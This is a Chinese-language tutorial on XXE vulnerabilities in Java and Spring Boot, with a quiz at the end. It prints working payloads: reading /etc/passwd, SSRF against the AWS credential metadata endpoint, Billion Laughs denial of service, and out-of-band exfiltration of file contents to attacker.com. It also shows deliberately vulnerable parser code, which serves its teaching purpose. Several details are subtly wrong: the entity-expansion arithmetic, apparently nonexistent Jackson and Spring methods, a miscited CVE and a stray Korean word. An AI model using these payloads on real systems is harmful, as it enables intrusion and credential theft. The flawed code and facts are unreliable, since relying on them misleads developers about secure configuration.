

2019年，某大型社交平台的 API 接口被发现存在 XXE 漏洞。攻击者通过上传恶意构造的 XML 文件，可以读取服务器上的任意文件，包括配置文件、密钥、甚至用户数据。

但 XXE 漏洞的影响远不止文件读取——它可以被用来进行服务器端请求伪造（SSRF）、端口扫描、甚至发起拒绝服务攻击。这个诞生于 XML 1.0 标准的「遗产」漏洞，至今仍然是 Web 应用安全的重大威胁之一。

## 一、XXE 的原理

### 1.1 XML 外部实体

XML 允许定义「实体」来引用数据。外部实体允许 XML 文档引用外部资源：

```xml title="XML 外部实体示例"
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
```

在这个例子中：
- `DOCTYPE` 声明定义了文档类型
- `ENTITY` 定义了一个实体 `xxe`
- `SYSTEM` 表示从系统资源获取值
- `&xxe;` 在文档中使用该实体

### 1.2 XXE 的本质

XXE 的本质是：**应用程序在解析 XML 时，对外部实体的引用没有进行安全限制**，导致攻击者可以：

1. 读取服务器本地文件
2. 执行 HTTP 请求（SSRF）
3. 扫描内部网络端口
4. 触发拒绝服务



## 二、XXE 的危害

### 2.1 读取本地文件

最常见的 XXE 攻击目标是读取服务器上的敏感文件：

```xml title="读取 /etc/passwd"
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
```

### 2.2 端口扫描

通过外部实体进行内部网络探测：

```xml title="端口扫描"
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "http://192.168.1.1:22">
]>
<foo>&xxe;</foo>
```

### 2.3 SSRF 攻击

利用 XXE 向内部服务发起请求：

```xml title="访问 AWS 元数据"
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
]>
<foo>&xxe;</foo>
```

### 2.4 拒绝服务攻击

**Billion Laughs 攻击**：

```xml title="Billion Laughs - 指数级扩展"
<?xml version="1.0"?>
<!DOCTYPE lolz [
    <!ENTITY lol "lol">
    <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
    <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
]>
<lolz>&lol3;</lolz>
```

这个实体会被指数级扩展：
- `lol` = "lol"
- `lol2` = 10 × lol = 100 个字符
- `lol3` = 10 × lol2 = 1000 个字符

如果攻击者使用更大的倍数，可以消耗所有服务器内存导致 DoS。

## 三、XXE 攻击类型

### 3.1 带内 XXE（In-band XXE）

攻击者可以直接从响应中获取数据：

```xml title="带内攻击"
<?xml version="1.0"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<result>&xxe;</result>
```

服务器响应中直接包含 `/etc/passwd` 的内容。

### 3.2 带外 XXE（Out-of-band XXE）

攻击者通过外部通道获取数据，服务器响应中不包含数据：

```xml title="带外攻击 - DNS 带出"
<?xml version="1.0"?>
<!DOCTYPE foo [
    <!ENTITY % xxe SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?data=%xxe;'>">
    %eval;
    %exfil;
]>
```

服务器读取 `/etc/passwd`，然后将内容作为 URL 参数发送到 `attacker.com`。

### 3.3 参数实体（Parameter Entity）

在 DTD 内部使用 `%` 定义的实体：

```xml title="参数实体攻击"
<?xml version="1.0"?>
<!DOCTYPE foo [
    <!ENTITY % xxe SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?data=%xxe;'>">
    %eval;
    %exfil;
]>
<foo></foo>
```

## 四、Java 中的 XXE 漏洞

### 4.1 危险配置

Java 中多个 XML 解析器默认支持外部实体：

```java title="危险的 XMLInputFactory 配置"
// SAXParserFactory - 危险配置
SAXParserFactory factory = SAXParserFactory.newInstance();
// 默认: 支持外部实体！

SAXParser parser = factory.newSAXParser();
parser.parse(new InputSource(new StringReader(xml)), handler);

// 危险：可以直接读取文件
```

```java title="危险的 DocumentBuilderFactory 配置"
DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
DocumentBuilder builder = factory.newDocumentBuilder();
// 默认: 支持外部实体！

Document doc = builder.parse(new InputSource(new StringReader(xml)));
```

```java title="危险的 XMLStreamReader"
XMLInputFactory factory = XMLInputFactory.newInstance();
// 默认: 支持外部实体！

XMLStreamReader reader = factory.createXMLStreamReader(
    new StringReader(xml));
```

### 4.2 漏洞代码示例

```java title="典型的 XXE 漏洞代码"
@RestController
public class XMLController {
    
    /**
     * 危险的 XML 解析
     */
    @PostMapping("/parse/xml")
    public ResponseEntity<String> parseXml(@RequestBody String xml) {
        try {
            // 危险：未禁用外部实体
            DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
            DocumentBuilder builder = factory.newDocumentBuilder();
            
            Document doc = builder.parse(
                new InputSource(new StringReader(xml)));
            
            return ResponseEntity.ok("Parsed successfully");
        } catch (Exception e) {
            return ResponseEntity.badRequest().body(e.getMessage());
        }
    }
    
    /**
     * SAX 解析的 XXE
     */
    @PostMapping("/parse/sax")
    public ResponseEntity<String> parseSax(@RequestBody String xml) {
        try {
            SAXParserFactory factory = SAXParserFactory.newInstance();
            SAXParser parser = factory.newSAXParser();
            
            // 危险：未配置安全的 XMLReader
            parser.parse(new InputSource(new StringReader(xml)), 
                new DefaultHandler());
            
            return ResponseEntity.ok("Parsed");
        } catch (Exception e) {
            return ResponseEntity.badRequest().body(e.getMessage());
        }
    }
}
```

## 五、Spring Boot 防护

### 5.1 安全配置

```java title="安全的 XML 解析配置"
@Configuration
public class XmlSecurityConfig {
    
    /**
     * 安全的 DocumentBuilderFactory
     */
    @Bean
    public DocumentBuilderFactory secureDocumentBuilderFactory() {
        DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
        
        try {
            // 禁用 DOCTYPE 声明
            factory.setFeature(
                "http://apache.org/xml/features/disallow-doctype-decl", 
                true);
            
            // 禁用外部实体
            factory.setFeature(
                "http://xml.org/sax/features/external-general-entities", 
                false);
            factory.setFeature(
                "http://xml.org/sax/features/external-parameter-entities", 
                false);
            
            // 禁用 XInclude
            factory.setXIncludeAware(false);
            factory.setExpandEntityReferences(false);
            
            // 额外的安全设置
            factory.setFeature(
                "http://javax.xml.XMLConstants/feature/secure-processing", 
                true);
            
        } catch (Exception e) {
            throw new RuntimeException("Failed to configure XML security", e);
        }
        
        return factory;
    }
    
    /**
     * 安全的 SAXParserFactory
     */
    @Bean
    public SAXParserFactory secureSaxParserFactory() {
        SAXParserFactory factory = SAXParserFactory.newInstance();
        
        try {
            factory.setFeature(
                "http://apache.org/xml/features/disallow-doctype-decl", 
                true);
            factory.setFeature(
                "http://xml.org/sax/features/external-general-entities", 
                false);
            factory.setFeature(
                "http://xml.org/sax/features/external-parameter-entities", 
                false);
            factory.setXIncludeAware(false);
            factory.setNamespaceAware(true);
            
        } catch (Exception e) {
            throw new RuntimeException("Failed to configure SAX security", e);
        }
        
        return factory;
    }
    
    /**
     * 安全的 XMLInputFactory（用于 StAX）
     */
    @Bean
    public XMLInputFactory secureXmlInputFactory() {
        XMLInputFactory factory = XMLInputFactory.newInstance();
        
        factory.setProperty(XMLConstants.ACCESS_EXTERNAL_DTD, "");
        factory.setProperty(XMLConstants.ACCESS_EXTERNAL_SCHEMA, "");
        
        factory.setXMLResolver(null);  // 禁用外部解析
        
        return factory;
    }
}
```

### 5.2 XML 解析工具类

```java title="安全的 XML 解析工具"
@Component
public class SafeXmlParser {
    
    private final DocumentBuilderFactory dbf;
    private final SAXParserFactory spf;
    private final XMLInputFactory xif;
    
    public SafeXmlParser(
            DocumentBuilderFactory dbf,
            SAXParserFactory spf,
            XMLInputFactory xif) {
        this.dbf = dbf;
        this.spf = spf;
        this.xif = xif;
    }
    
    /**
     * 解析 XML 字符串为 Document
     */
    public Document parseDocument(String xml) throws ParserConfigurationException, 
            SAXException, IOException {
        
        // 额外的运行时检查
        if (containsXXEPatterns(xml)) {
            throw new SecurityException("Potential XXE detected");
        }
        
        DocumentBuilder builder = dbf.newDocumentBuilder();
        return builder.parse(new InputSource(new StringReader(xml)));
    }
    
    /**
     * SAX 方式解析
     */
    public void parseWithSAX(String xml, DefaultHandler handler) 
            throws ParserConfigurationException, SAXException, IOException {
        
        if (containsXXEPatterns(xml)) {
            throw new SecurityException("Potential XXE detected");
        }
        
        SAXParser parser = spf.newSAXParser();
        parser.parse(new InputSource(new StringReader(xml)), handler);
    }
    
    /**
     * 基本的 XXE 模式检测（不能完全依赖这个）
     */
    private boolean containsXXEPatterns(String xml) {
        String lower = xml.toLowerCase();
        return lower.contains("doctype") ||
               lower.contains("dtd") ||
               lower.contains("entity") ||
               lower.contains("system") ||
               lower.contains("public");
    }
    
    /**
     * 解析并验证
     */
    public <T> T parseAndValidate(String xml, Class<T> clazz) {
        // 仅解析，不处理外部实体
        Document doc = parseDocument(xml);
        
        // 这里可以进行验证逻辑
        // ...
        
        // 返回结果（需要根据业务实现）
        return null;
    }
}
```

### 5.3 使用注解处理 XML 请求

```java title="安全的 @RequestBody 处理"
@Configuration
public class WebMvcConfig implements WebMvcConfigurer {
    
    @Override
    public void configureMessageConverters(
            List<HttpMessageConverter<?>> converters) {
        converters.add(0, createSecureXmlHttpMessageConverter());
    }
    
    private HttpMessageConverter<Object> createSecureXmlHttpMessageConverter() {
        MappingJackson2XmlHttpMessageConverter converter = 
            new MappingJackson2XmlHttpMessageConverter();
        
        // 配置 XML 解析器
        JacksonXmlModule module = new JacksonXmlModule();
        module.setXMLTextElementPropertyIndentFactor(2);
        
        XmlMapper xmlMapper = new XmlMapper(module);
        
        // 设置安全的 ObjectMapper
        xmlMapper.getXMLMapper().setXMLTextElementPropertyIndentFactor(2);
        
        converter.setObjectMapper(xmlMapper);
        
        return converter;
    }
}
```

### 5.4 Spring Boot XML 配置

```yaml title="application.yml 中配置 XML 解析器"
spring:
  # 如果使用 JAXB
  jackson:
    xml:
      enabled: true
      
# 自定义安全配置
xml:
  security:
    disallow-doctype: true
    max-entity-expansion-limit: 1024
```

```java title="使用 @PostConstruct 初始化安全配置"
@Component
public class XmlSecurityInitializer {
    
    @PostConstruct
    public void init() {
        // 全局配置 System Property
        System.setProperty(
            "org.apache.xerces.xni.parser.XMLParserConfiguration", 
            "secure");
        
        // 设置默认的 XML 解析器安全特性
        System.setProperty(
            "jdk.xml.entityExpansionLimit", 
            "1024");
    }
}
```

## 六、检测与修复

### 6.1 XXE 检测清单

- [ ] 检查代码中是否直接解析用户提供的 XML
- [ ] 检查 XML 解析器是否禁用了外部实体
- [ ] 检查是否使用了安全的 XML 解析库
- [ ] 检查是否有 XXE 的自动化测试用例

### 6.2 常见修复模式

```java title="修复对比 - 修复前 vs 修复后"
// 修复前
public Document parseXml(String xml) throws Exception {
    DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
    DocumentBuilder builder = factory.newDocumentBuilder();
    return builder.parse(new InputSource(new StringReader(xml)));
}

// 修复后
public Document parseXml(String xml) throws Exception {
    DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
    
    // 关键：禁用外部实体
    factory.setFeature(
        "http://xml.org/sax/features/external-general-entities", 
        false);
    factory.setFeature(
        "http://xml.org/sax/features/external-parameter-entities", 
        false);
    factory.setFeature(
        "http://apache.org/xml/features/nonvalidating/load-external-dtd", 
        false);
    
    // 禁用 DTD
    factory.setFeature(
        "http://apache.org/xml/features/disallow-doctype-decl", 
        true);
    
    DocumentBuilder builder = factory.newDocumentBuilder();
    return builder.parse(new InputSource(new StringReader(xml)));
}
```

### 6.3 使用 JSON 替代 XML

```java title="建议使用 JSON API"
@RestController
@RequestMapping("/api")
public class SafeApiController {
    
    /**
     * 建议使用 JSON 而非 XML
     */
    @PostMapping("/process")
    public ResponseEntity<ProcessResult> process(
            @RequestBody ProcessRequest request) {
        
        // JSON 解析不存在 XXE 风险
        // Jackson 默认是安全的
        
        return ResponseEntity.ok(processService.process(request));
    }
    
    /**
     * 如果必须支持 XML，明确标记
     */
    @PostMapping(value = "/process/xml", 
                 consumes = MediaType.APPLICATION_XML_VALUE,
                 produces = MediaType.APPLICATION_XML_VALUE)
    public ResponseEntity<String> processXml(
            @RequestBody String xml) {
        
        // 明确知道这里解析 XML，需要额外小心
        return ResponseEntity.ok(
            safeXmlParser.parseDocument(xml).toString());
    }
}
```

## 七、真实案例

> **2019 年 Facebook XXE 漏洞**
>
> 安全研究员 발견发现 Facebook 的 SDK 存在 XXE 漏洞。攻击者可以利用该漏洞读取服务器上的任意文件。
>
> 来源：The Register

> **Jenkins XXE 漏洞（CVE-2019-1003000）**
>
> Jenkins 插件管理界面在解析插件元数据时存在 XXE 漏洞。攻击者可以通过构造恶意插件元数据进行攻击。
>
> 来源：Jenkins Security Advisory

:::tip 关键洞察
XXE 防护的核心是**禁用 XML 解析器的外部实体功能**。Java 的 XML 解析器默认是支持外部实体的，需要手动禁用。最佳实践是：
1. 尽量使用 JSON 而非 XML
2. 如果必须使用 XML，使用安全的解析器配置
3. 输入验证，但不要依赖白名单来防御 XXE
4. 定期更新依赖，避免使用已知有漏洞的库
:::

## 思考题

**问题 1**：某公司使用 Apache POI 库处理 Excel 文件导入功能。Excel 文件（.xlsx）本质上是一个 ZIP 文件，包含 XML 格式的 sheet 数据。请分析这种情况下是否存在 XXE 风险，以及如何防护。

<details>
<summary>参考答案</summary>

**XXE 风险分析**：

**风险点**：
- XLSX 文件内部使用 XML 存储数据
- ZIP 文件中的 XML 可能包含 XXE 实体
- POI 在解析过程中会解压并解析这些 XML

**攻击方式**：
1. 创建一个包含 XXE 实体的 XLSX 文件
2. 在 xl/worksheets/sheet1.xml 中插入：
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<sheet>&xxe;</sheet>
```
3. 上传文件，POI 解析时触发 XXE

**防护方案**：

**方案 1：禁用 POI 的 XXE**
```java
public class SafeExcelProcessor {
    
    public void processSafe(InputStream input) throws Exception {
        // 在解析 Excel 之前设置安全的 XML 解析器
        OPCPackage pkg = OPCPackage.open(input);
        
        // POI 4.0+ 默认已经禁用 XXE
        // 但对于旧版本，需要手动配置
        
        // 检查版本
        PackageProperties props = pkg.getPackageProperties();
        // ...
    }
}
```

**方案 2：全局禁用 XML 外部实体**
```java
// 在应用启动时全局配置
static {
    System.setProperty(
        "javax.xml.parsers.DocumentBuilderFactory", 
        "com.sun.org.apache.xerces.internal.jaxp.DocumentBuilderFactoryImpl");
    
    // 这会影响到整个 JVM，但可能与其他功能冲突
}
```

**方案 3：沙箱隔离**
- 将文件处理服务隔离到独立容器
- 限制文件处理服务的文件系统权限
- 监控异常的文件访问

**最佳实践**：
1. 升级到 POI 4.0+（默认禁用 XXE）
2. 使用 `SAXMapper` 而非 DOM 方式解析
3. 定期更新 POI 版本
</details>

**问题 2**：某 REST API 接受 XML 格式的请求，但使用了 Spring 的 `@RequestBody` 注解。请分析这种场景下 XXE 防护的责任边界，以及开发团队和运维团队应该分别做什么。

<details>
<summary>参考答案</summary>

**责任边界分析**：

**Spring MVC 的角色**：
- Spring MVC 负责将请求体转换为 Java 对象
- 它内部使用 XML 解析器来解析 XML
- 如果配置不当，Spring 本身可能成为 XXE 的入口

**开发团队的责任**：

1. **使用安全的数据绑定方式**
```java
// Spring Boot 2.x + Jackson
@RestController
public class XmlApiController {
    
    // Jackson XML 默认禁用 XXE
    // 但如果使用了原始 XML 解析，需要手动配置
}
```

2. **如果使用 @RequestBody + XML**
```java
@PostMapping("/api")
public ResponseEntity<String> handleXml(
        @RequestBody String xml) {
    
    // 这里解析 XML 是开发者代码
    // 开发者需要确保安全
}
```

3. **正确的配置**
```java
@Configuration
public class XmlConfig {
    
    @Bean
    public Jaxb2RootHttpMessageConverter xmlConverter() {
        return new Jaxb2RootHttpMessageConverter() {
            @Override
            protected void initXmlConverter(XMLStreamWriter xmlStreamWriter) 
                    throws XMLStreamException {
                super.initXmlConverter(xmlStreamWriter);
                // 安全的 XML 配置
            }
        };
    }
}
```

**运维团队的责任**：

1. **监控和告警**
   - 监控异常的 XML 解析行为
   - 监控来自单一来源的大量 XML 请求

2. **WAF 配置**
   - 在 WAF 层检测 XXE 攻击特征
   - 阻止包含 DOCTYPE、ENTITY 等关键字的请求

3. **网络隔离**
   - 应用服务器不应有访问敏感文件系统的权限
   - 使用最小权限原则

**最佳实践**：

1. **优先使用 JSON**
   - JSON 不存在 XXE 风险
   - 现代 REST API 越来越多地使用 JSON

2. **如果必须使用 XML**
   - 使用最新的 Spring Boot 版本
   - 明确了解数据绑定的 XML 解析器配置
   - 进行 XXE 专项测试

3. **纵深防御**
   - 应用层：安全的 XML 解析配置
   - 网络层：WAF 检测
   - 基础设施：最小权限、网络隔离
</details>
